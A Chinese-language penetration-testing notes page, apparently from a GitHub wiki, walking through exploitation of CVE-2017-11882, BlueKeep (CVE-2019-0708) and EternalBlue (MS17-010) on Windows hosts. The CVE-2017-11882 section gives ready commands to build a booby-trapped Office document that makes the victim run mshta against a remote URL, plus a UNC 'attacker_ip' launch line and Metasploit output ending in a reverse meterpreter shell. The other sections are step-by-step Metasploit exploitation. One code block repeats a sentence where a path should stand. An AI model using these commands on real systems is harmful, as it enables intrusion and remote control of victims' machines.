# 主机渗透

## Windows系统相关漏洞

[GitHub - SecWiki/windows-kernel-exploits: windows-kernel-exploits   Windows平台提权漏洞集合](https://github.com/SecWiki/windows-kernel-exploits)

CVE-2018-0824

CVE-2018-8174

CVE-2018-8893

CVE-2018-8242

CVE-2018-8373

CVE-2019-0708

...

### CVE-2017-11882

关于Office的一个远程代码执行漏洞[starnightcyber/CVE-2017-11882: CVE-2017-11882 exploitation (github.com)](https://github.com/starnightcyber/CVE-2017-11882)

完美无弹窗，无视宏，影响Ms offcie全版本

> 影响版本

- Office 365
- Microsoft Office 2000  
- Microsoft Office 2003  
- Microsoft Office 2007 Service Pack 3
- Microsoft Office 2010 Service Pack 2
- Microsoft Office 2013 Service Pack 1
- Microsoft Office 2016

>仓库

43b 原脚本来自于 https://github.com/embedi/CVE-2017-11882

一个用于 CVE-2017-11882的简单 PoC。这个漏洞触发 WebClient 服务从攻击者控制的 WebDav 服务器启动和执行远程文件。这种方法之所以方便，是因为它限制了执行命令的长度。在 WebDav 的帮助下，可以在易受攻击的机器上启动任意攻击者控制的可执行文件。此脚本创建具有多个 OLE 对象的简单文档。这些对象利用 CVE-2017-11882，从而导致顺序命令执行。

触发 WebClient 服务启动的第一个命令可能如下所示：

```
cmd.exe /c start \\attacker_ip\ff
```

攻击者控制的二进制路径应为 UNC 网络路径：

```
攻击者控制的二进制路径应为 UNC 网络路径：
```

109b 原脚本来自于 https://github.com/unamer/CVE-2017-11882/ （膜一波，现在unamer的代码已经可以执行shellcode了~）

CVE-2017-11882: https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/

MITRE CVE-2017-11882: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-11882

Research: https://embedi.com/blog/skeleton-closet-ms-office-vulnerability-you-didnt-know-about

Patch analysis: https://0patch.blogspot.ru/2017/11/did-microsoft-just-manually-patch-their.html

DEMO PoC exploitation: https://www.youtube.com/watch?v=LNFG0lktXQI&lc=z23qixrixtveyb2be04t1aokgz10ymfjvfkfx1coc3qhrk0h00410

43b命令长度不能超过43 bytes，109b命令长度不能超过109 bytes

关于自定义内容：只需要文本文件打开正常的文档rtf，复制{*\datastore 之前的所有内容，替换 {\object\objautlink\objupdate之前的内容即可，所以写到脚本里面就很简单了

添加自定义内容使用方式,选择任意脚本：

```
python Command109b_CVE-2017-11882.py -c "mshta http://site.com/abc" -o test.doc -i input.rtf
```

自定义内容在input.rtf中

> Usage

1.生成漏洞doc文件，可以弹出计算器如下：

```python
python Command_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o test.doc
[*] Done ! output file >> test.doc <<
```

用命令生成test.doc后，用Offcie 2013打开这个文件，可以看到在打开doc文件的时候，弹出计算器

2.生成漏洞doc文件获取shell

利用`PS_shell.rb`生成一个恶意链接，利用`mshta`这个命令来执行这个恶意链接反弹一个shell。

要用到`PS_shell.rb`这个脚本，下载地址：[PS_shell.rb](https://github.com/starnightcyber/CVE-2017-11882/edit/master/PS_shell.rb)

下载脚本放到`/usr/share/metasploit-framework/modules/exploits/windows/`目录下。

msf执行命令：reload_all

  

加载攻击脚本，然后进入msf执行命令：

```clike
msf > use exploit/windows/PS_shell
msf exploit(windows/PS_shell) > options 

Module options (exploit/windows/PS_shell):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(windows/PS_shell) > set uripath 123
uripath => 123

msf exploit(windows/PS_shell) > exploit 
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 10.107.10.77:4444 
msf exploit(windows/PS_shell) > [*] Using URL: http://0.0.0.0:8080/123
[*] Local IP: http://10.107.10.77:8080/123
[*] Server started.
[*] Place the following DDE in an MS document:
mshta.exe "http://10.107.10.77:8080/123"
```

命令长度有43字符的限制，可以使用URIPATH设置路径，尽量短一点，避免加起来超过43字符

 

 

靶机执行`mshta.exe "http://100.1.1.121:3344/123"`这个命令就可以得到一个反弹的shell了。(需要外联 )

此处使用 Command_CVE-2017-11882.py 生成一个存在漏洞的doc文件

```py
python Command_CVE-2017-11882.py -c "mshta.exe http://100.1.1.121:3344/123" -o test.doc
[*] Done ! output file >> test.doc <<
```

用office打开这个文件，随后msf获得meterpreter shell

mshta尝试获取的文件格式大致如下：

```html
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "calc.exe"
self.close
</script>
<body>
demo
</body>
</HEAD> 
</HTML> 
```


> 参考

[CVE-2017-11882利用](https://evi1cg.me/archives/CVE_2017_11882_exp.html)

[CVE-2017-11882的复现、利用技巧以及修复方案](https://mp.weixin.qq.com/s/o3Psnsl8OBmVdkUrvcTLsw)

[CVE-2017-11882漏洞复现和利用](http://www.freebuf.com/vuls/154978.html)

> 修复

```
(1)下载https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11882  更新补丁进行修补 
(2)开启Windows Update功能，定期对系统进行自动更新
(3)注册表中禁用该漏洞模块  cmd下执行
reg add "HKLM\SOFTWARE\Microsoft\Office\XX.X\Common\COM Compatibility\{0002CE02-0000- 0000-C000-000000000046}" /v "Compatibility Flags" /t REG_DWORD /d 0x400
reg add "HKLM\SOFTWARE\Wow6432Node\Microsoft\Office\XX.X\Common\COM Compatibility\{0002CE02-0000-0000-C000-000000000046}" /v "Compatibility Flags" /t REG_DWORD /d 0x400
```

### CVE-2019-0708

漏洞利用方式是通过远程桌面端口3389，RDP协议(一般都是3389端口)进行攻击的

 

影响范围

> Windows 7
> Windows Server 2008 R2
> Windows Server 2008
> Windows 2003
> Windows XP

> use auxiliary/scanner/rdp/cve_2019_0708_bluekeep

先跑一下验证脚本

 

> windows/rdp/cve_2019_0708_bluekeep_rce
>
> use exploit/windows/rdp/cve_2019_0708_bluekeep_rce 

targets选择：

 

 

如果一直不成，可以尝试更改一下target,RDP_CLIENT_IP(一般是要弹shell的IP)，不过很可能改了以后连漏洞都扫不到

 

这时就换回原来的即可

 

如果出现上述错误 再run几次  因为这个漏洞存在地址随机化的机制 所以有概率不成功

成功后会进入meterpreter（可能会一直卡在Lobbing egss阶段  等待即可或者多试几次）

 

### ms17-010  永恒之蓝

> 简介

永恒之蓝（Eternal Blue）爆发于2017年4月14日晚，是一种利用Windows系统的SMB协议漏洞来获取系统的最高权限，以此来控制被入侵的计算机。甚至于2017年5月12日， 不法分子通过改造“永恒之蓝”制作了wannacry勒索病毒，使全世界大范围内遭受了该勒索病毒，甚至波及到学校、大型企业、政府等机构，只能通过支付高额的赎金才能恢复出文件。不过在该病毒出来不久就被微软通过打补丁修复。

> SMB协议

SMB（全称是Server Message Block）是一个协议服务器信息块，它是一种客户机/服务器、请求/响应协议，通过SMB协议可以在计算机间共享文件、打印机、命名管道等资源，电脑上的网上邻居就是靠SMB实现的；SMB协议工作在应用层和会话层，可以用在TCP/IP协议之上，SMB使用TCP139端口和TCP445端口。

> SMB工作原理

（1）：首先客户端发送一个SMB negport 请求数据报，并列出它所支持的所有SMB的协议版本。服务器收到请求消息后响应请求，并列出希望使用的SMB协议版本。如果没有可以使用的协议版本则返回0XFFFFH，结束通信。

（2）：协议确定后，客户端进程向服务器发起一个用户或共享的认证，这个过程是通过发送SessetupX请求数据包实现的。客户端发送一对用户名和密码或一个简单密码到服务器，然后通过服务器发送一个SessetupX应答数据包来允许或拒绝本次连接。

（3）：当客户端和服务器完成了磋商和认证之后，它会发送一个Tcon或TconX SMB数据报并列出它想访问的网络资源的名称，之后服务器会发送一个TconX应答数据报以表示此次连接是否接收或拒绝。

（4）：连接到相应资源后，SMB客户端就能够通过open SMB打开一个文件，通过read SMB读取文件，通过write SMB写入文件，通过close SMB关闭文件。

> Usage   win7以下的某些版本才行

 本地安装postgresql服务并开启postgresql数据库，初始化msfdb数据库：msfdb init，配置数据库相关信息后启动，msfdb run(见远控->MSF->Usage->常用)，进入msf后可以db_status查看数据库连接情况

搜索msf17_010相关模块

 

使用扫描模块

 

RHOSTS是要扫描的主机（主机段如/24），THREADS是线程，默认是1，开始使用线程加快扫描

 

wireshark抓包可以看到相关的流量特征(会被IPS检测)

 

虽然不一定可以成功，但是也可以从响应信息里确定目标系统的一些信息

攻击模块可以使用exploit/windows/smb/ms17_010_eternalblue   设置payload

 


## PowerShell

> 见`Tips -> Windows -> Powershell`
